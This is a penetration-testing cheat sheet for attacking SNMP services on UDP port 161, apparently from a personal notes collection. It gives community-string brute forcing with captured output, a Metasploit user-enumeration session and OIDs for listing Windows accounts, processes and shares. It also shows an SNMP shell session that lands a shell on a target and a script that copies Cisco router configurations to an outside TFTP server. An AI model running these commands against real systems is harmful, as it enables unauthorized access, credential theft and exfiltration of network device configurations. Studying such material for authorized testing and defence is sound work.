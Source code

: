 ```yaml
---
description: udp/161
---
```


# 161 - SNMP

### Tools

```
snmpget -v 1 -c public IP version
snmpbulkwalk -v 2 -c public IP
```

```
apt-get install snmp
snmpwalk -v 1 -c public IP
snmpwalk -c public -v2c -On IP
```

```
sudo apt install snmpenum
snmpenum 10.129.137.66 public linux.txt
```

### SNMP Config

Snmp configuration file is located by default in:

`/etc/snmp/snmpd.conf`

and it includes the passwords for the community and private string



### Brute force community string

```
./onesixtyone -c /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.92 
Scanning 1 hosts, 122 communities 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
```



### **Metasploit - Enumerate users**

```
msf5 auxiliary(scanner/snmp/snmp_enumusers) > show options  
Module options (auxiliary/scanner/snmp/snmp_enumusers): 
   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   COMMUNITY  public           yes       SNMP Community String 
   RETRIES    1                yes       SNMP Retries 
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax '
file:<path>
' 
   RPORT      161              yes       The target port (UDP) 
   THREADS    1                yes       The number of concurrent threads (max one per host) 
   TIMEOUT    1                yes       SNMP Timeout 
   VERSION    1                yes       SNMP Version <1/2c> 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > set rhosts 192.168.0.41 
rhosts => 192.168.0.41 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > run 
[+] 192.168.0.41:161 Found 6 users: daemon, jack, noaccess, nobody, root, smmsp 
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

### SNMP Shell

Using Net-SNMP functionality we can gain shell on a SNMP server

Link: [https://github.com/mxrch/snmp-shell](https://github.com/mxrch/snmp-shell)

```
root@kali# rlwrap python3 /opt/snmp-shell/shell.py 10.10.10.195 -c SuP3RPrivCom90

Debian-snmp@intense:/$ id
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
```

### SNMP IPv6 Enumeration&#x20;

[Enyx](broken-reference) is an enumerator tool about grabbing the possible IPV6 of a machine through the snmp protocol.



### SNMPv3&#x20;

Identify SNMPv3 servers with nmap:&#x20;

`nmap -sV -p 161 --script=snmp-info TARGET-SUBNET`&#x20;

Rory McCune’s snmpwalk wrapper script helps automate the username enumeration process for SNMPv3:&#x20;

```
apt-get install snmp snmp-mibs-downloader 
wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb
```

### &#x20;SNMP  Enumeration - Windows tool

Getif is a free multi-functional Windows GUI based Network Tool written by Philippe Simonet.  It is amongst other things, an excellent SNMP tool that allows you to collect and graph information from SNMP devices.&#x20;

Download:&#x20;

[http://www.wtcs.org/snmp4tpc/getif.htm](http://www.wtcs.org/snmp4tpc/getif.htm)&#x20;

Install and set compatability as Windows XP SP2&#x20;

Press STRAT once you put the IP and public commuinty&#x20;

Download the  SNMP4tPC Getif MIB collection as well.

![](../.gitbook/assets/GetImage.gif)

For each tab press 'start' to get the information &#x20;

`Error: If you getting 'DllRegisterServer (msflxgrd) failed' error` – run the software as administrator &#x20;

### **Common Mibs**

**interfaces** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.2.2`&#x20;

**Windows User Accounts** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25`&#x20;

**Windows Running Programs** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2`&#x20;

**Windows Hostname** \
`snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5`&#x20;

**Windows Share Information** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1`&#x20;

**Windows Share Information** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27`&#x20;

**Windows TCP Ports** \
`snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3`&#x20;

**Software Name** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2`&#x20;

**SysLocation** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.1.6`

### Solaris MIBS

Enumerate users on solaris:

`use auxiliary/scanner/snmp/snmp_enumusers`

### Download Cisco Conf

Copies configuration files from Cisco devices running SNMP.&#x20;

**Usage**:&#x20;

```
root@kali:~# copy-router-config.pl 
###################################################### 
# Copy Cisco Router config  - Using SNMP 
# Hacked up by muts - muts@offensive-security.com 
####################################################### 
Usage : ./copy-copy-config.pl <router-ip> <tftp-serverip> <community> 
Make sure a TFTP server is set up, preferably running from /tmp ! 
```

**Example:**&#x20;

`root@kali:~# copy-router-config.pl 192.168.1.1 192.168.1.15 private`
